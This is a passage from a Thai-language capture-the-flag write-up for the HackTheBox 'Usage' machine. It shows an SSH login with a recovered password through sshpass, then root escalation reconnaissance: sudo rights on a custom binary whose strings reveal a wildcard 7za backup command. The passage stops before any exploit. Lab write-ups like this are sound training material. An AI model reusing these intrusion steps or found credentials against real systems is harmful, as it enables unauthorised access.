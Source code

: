 ```bash
```

จากข้อมูลข้างต้นเราจะพบข้อมูลสำคัญซึ่งอาจะเป็นรหัสผ่านของ xander ได้ 

```bash
sshpass -p '3nc0d3d_pa$$w0rd' ssh xander@usage.htb
```

# Shell as root 

```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management

```

## String file 
```bash
xander@usage:~$ strings /usr/bin/usage_management 
/lib64/ld-linux-x86-64.so.2
chdir
__cxa_finalize
__libc_start_main
puts
system
__isoc99_scanf
perror
printf
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
GLIBC_2.34
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
Password has been reset.
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
Invalid choice.
:*3$"
GCC: (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0
Scrt1.o
__abi_tag
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
```